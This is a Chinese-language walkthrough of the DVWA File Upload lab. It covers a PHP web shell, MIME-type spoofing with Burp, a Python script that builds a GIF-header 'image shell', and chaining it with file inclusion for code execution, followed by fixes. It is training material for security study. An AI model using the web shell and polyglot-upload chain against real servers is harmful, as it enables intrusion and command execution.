


# File Upload

头像上传。服务器收下文件、存进 Web 目录，但没管它是什么东西。上传的脚本能被浏览器直接访问，也能被 PHP 解析执行，问题就在这里。

有漏洞的那一行大概长这样：

```php
move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path);
```

`$target_path` 直接写在 `hackable/uploads/` 下面，没有任何校验。

## Low

后缀、类型、内容一样都不查。

先传一个探针，确认 PHP 会被执行：

```php
<?php phpinfo(); ?>
```

存成 `info.php` 上传，访问 `http://127.0.0.1/dvwa/hackable/uploads/info.php`。页面出来一整页 PHP 配置信息，说明服务器把它当 PHP 执行了，而不是当文本读。


再换成能带参数执行的一条：

```php
<?php system($_GET['cmd']); ?>
```

访问 `...uploads/shell.php?cmd=whoami`，回显 `www-data`（Windows 下会是别的账号）。这一条就够说明危害了：任意命令，权限跟 Web 服务一致。



很多人到这一步就停了，其实还该看两件事：上传目录能不能列目录、上传的文件有没有被重命名。DVWA 里都是原始文件名，所以能直接猜路径。

## Medium

Medium 查了 `$_FILES['uploaded']['type']`，只放 `image/jpeg` 和 `image/png`。

这个值是浏览器随请求一起发上来的，属于客户端数据，改一下就过。默认直接传 `shell.php` 会失败，提示 `Your image was not uploaded.`，因为浏览器给的类型是 `application/x-php`。

Burp 拦下 multipart 请求，只改一行：

```
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php      ← 改成 image/jpeg
```


再放行，文件落地。这一步的本质是"把文件在请求里伪装成图片"，服务端读的是请求头里的声明，不是文件本身。

顺带记一句：`$_FILES['file']['type']` 这一整个字段都不可信，它来自客户端。判断文件类型要看 `finfo_file()` 读出来的真实内容。

## High

High 开始查真东西：后缀白名单、文件大小、还有 `getimagesize()`。前两个好理解，`getimagesize()` 是读文件头，判断是不是一张结构合法的图片。

到这一步流程变了：

| 试法 | 结果 | 原因 |
|---|---|---|
| 传 `info.php` | 失败 | 后缀不在白名单 |
| 传 `shell.php.jpg` | 失败 | 后缀对了，但内容不是合法图片 |
| 传正常 `normal.jpg` | 成功 | 没问题，但只是一张图 |
| 传图片马 | 成功上传 | 但直接访问不执行 |

关键结论：**High 下单独的文件上传拿不到代码执行**。图片能传上去，Web 服务器也默认不会把 `.jpg` 当 PHP 解析。

要真执行，得配合文件包含。DVWA 的 File Inclusion 模块正好也在，两个一拼就通了。

### 图片马

思路是造一个文件，既能让 `getimagesize()` 认出来是图片，尾部又带 PHP 代码。用 Python 拼最省事：

```python
from pathlib import Path

gif_header = (
    b"GIF89a"
    b"\x01\x00\x01\x00\x80\x00\x00"
    b"\x00\x00\x00\xff\xff\xff"
    b",\x00\x00\x00\x00\x01\x00\x01\x00\x00"
    b"\x02\x02D\x01\x00;"
)

php_payload = b'''<?php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
else { echo "usage: ?page=file:///path/to/123.jpg&cmd=whoami"; }
'''

out = Path(r"D:/phpstudy_pro/File Upload/123.jpg")
out.parent.mkdir(parents=True, exist_ok=True)
out.write_bytes(gif_header + php_payload)
print(out, out.stat().st_size)
```

生成的是 `.jpg` 后缀，但文件头是合法 GIF。`getimagesize()` 认的是内容，所以能过。

上传成功后文件落在 `hackable/uploads/123.jpg`。


### 用文件包含把它执行起来

File Inclusion 的 High 允许 `file*` 开头的参数，正好能用 `file://` 包装器。构造：

```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///D:/phpstudy_pro/WWW/DVWA/hackable/uploads/123.jpg&cmd=whoami
```

`include` 读文件时会把文件里的 `<?php ... ?>` 当代码解析，图片头是二进制垃圾，PHP 输出的时候直接原样吐出去，不影响后面的代码执行。




这条链子值得记牢：**单独一个上传高危但不致命，单独一个包含也未必能执行，两个凑一起就是 RCE**。真实环境里这种组合很常见，渗透的时候看到一个上传点别急着放弃。

## Impossible 为什么打不进去

1. 后缀白名单（只放 jpg/png/gif）
2. `getimagesize()` 校验
3. 用 `imagecreatefromjpeg()` 重新编码，图片马里的 PHP 代码在这一步被整体重写掉
4. 随机文件名，不保留用户原文件名
5. 上传目录不给执行权限
6. 加 CSRF token、限制大小

第 3 条是决定性的。前面所有绕过都是"让文件通过检查但保留 payload"，重新编码直接把文件解成像素再生成一张新图，payload 无处可藏。

## 我卡住的地方

- Medium 第一次改错了位置，改的是请求头里的 `Content-Type: multipart/form-data`，那是整个表单的类型，不是文件的。要改的是 `Content-Disposition` 那一段下面、文件名后面的那个 `Content-Type`。
- 图片马一开始用 `copy /b` 拼，拼出来的文件 `getimagesize()` 能过但上传被拒。后来发现是我拿的 jpg 本身就有问题，换成手写 GIF 头才稳定。
- 上传成功后直接访问 `123.jpg` 只看到一堆乱码，当时以为失败。其实那说明文件在，只是 Web 服务器不解析 jpg，要配合包含才行。

## 怎么修

1. 后缀白名单，不要黑名单。
2. 用 `finfo_file()` 读真实类型，不看请求头。
3. 图片类上传统一重新编码（`imagecreatefrom*` + `image*` 重新输出），丢掉所有原始字节。
4. 重命名成随机串，不保留原文件名，也不保留后缀里的第二个点。
5. 上传目录 `php_admin_flag engine off`，或者干脆放到 Web 根目录之外，用脚本读文件流输出。
6. 大小限制 + CSRF token。
